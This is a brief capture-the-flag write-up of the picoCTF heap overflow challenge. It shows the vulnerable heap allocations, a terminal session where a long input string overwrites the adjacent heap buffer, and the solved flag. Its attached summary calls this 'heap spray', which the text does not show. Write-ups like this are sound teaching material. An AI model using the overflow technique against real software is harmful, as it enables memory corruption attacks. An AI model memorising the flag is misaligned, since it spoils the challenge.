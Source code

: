 ```yaml
---
ai_date: 2025-04-27 05:29:26
ai_summary: Heap overflow exploited to leak and control adjacent memory, demonstrating heap spray and buffer overflow technique.
ai_tags:
  - heap
  - overflow
  - spray
created: 2024-06-15T20:50
updated: 2025-07-14T09:46
---
```


```cpp
#define INPUT_DATA_SIZE 5
#define SAFE_VAR_SIZE 5
input_data = malloc(INPUT_DATA_SIZE);
safe_var = malloc(SAFE_VAR_SIZE);
```

Naïve attempt to overflow will... oh it worked.

```
Enter your choice: 2
Data for buffer: 0123456789012345678901234567890123456789

+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5e89e4f682b0  ->   0123456789012345678901234567890123456789
+-------------+----------------+
[*]   0x5e89e4f682d0  ->   23456789
+-------------+----------------+
```

I guess even heaps are connected.

```flag
picoCTF{my_first_heap_overflow_4fa6dd49}
```